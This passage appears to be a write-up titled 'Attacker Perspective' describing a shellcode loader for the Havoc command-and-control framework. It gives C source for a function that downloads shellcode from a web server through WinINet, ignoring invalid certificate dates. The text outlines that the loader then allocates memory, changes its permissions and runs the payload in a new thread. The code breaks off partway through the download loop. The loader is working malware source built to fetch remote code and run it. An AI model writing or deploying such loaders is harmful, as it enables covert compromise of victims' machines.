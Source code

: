 # Attacker Perspective
He makes a request to a web server, reading a file that contains the Shellcode for a command and control (C2). In this case, I am using Havoc. Then, we allocate memory, change the memory permissions, and create a thread with the allocated memory. Below, I will provide a more detailed overview of the steps:
1 — Function to retrieve the shellcode from a web server using Wininet.dll. It takes a URL as a parameter and returns the shellcode bytes along with its size.

```c
BOOL GetPayloadFromUrl(LPCWSTR szUrl, PBYTE* pPayloadBytes, SIZE_T* sPayloadSize) {

	BOOL bSTATE = TRUE;

	HINTERNET hInternet     = NULL,
	HINTERNET hInternetFile = NULL;

	DWORD dwBytesRead = NULL;

	SIZE_T  sSize             = NULL;
	PBYTE  pBytes            = NULL,
		pTmpBytes          = NULL;



	hInternet = InternetOpenW(NULL, NULL, NULL, NULL, NULL);
	if (hInternet == NULL){
		printf("[!] InternetOpenW Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}


	hInternetFile = InternetOpenUrlW(hInternet, szUrl, NULL, NULL, INTERNET_FLAG_HYPERLINK | INTERNET_FLAG_IGNORE_CERT_DATE_INVALID, NULL);
	if (hInternetFile == NULL){
		printf("[!] InternetOpenUrlW Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}


	pTmpBytes = (PBYTE)LocalAlloc(LPTR, 1024);

	if (pTmpBytes == NULL){
		bSTATE = FALSE; goto _EndOfFunction;
	}

	while (TRUE){

		if (!InternetReadFile(hInternetFile, pTmpBytes, 1024, &dwBytesRead)) {
			printf("[!] InternetReadFile Failed With Error : %d \n", GetLastError());
			bSTATE = FALSE; goto _EndOfFunction;
		}

		sSize += dwBytesRead;

		if (pBytes == NULL)
			pBytes = (PBYTE)LocalAlloc(LPTR, dwBytesRead);
		else
			pBytes = (PBYTE)LocalReAlloc(pBytes, sSize, LMEM_MOVEABLE | LMEM_ZEROINIT);

		if (pBytes == NULL) {
			bSTATE = FALSE; goto _EndOfFunction;
		}

```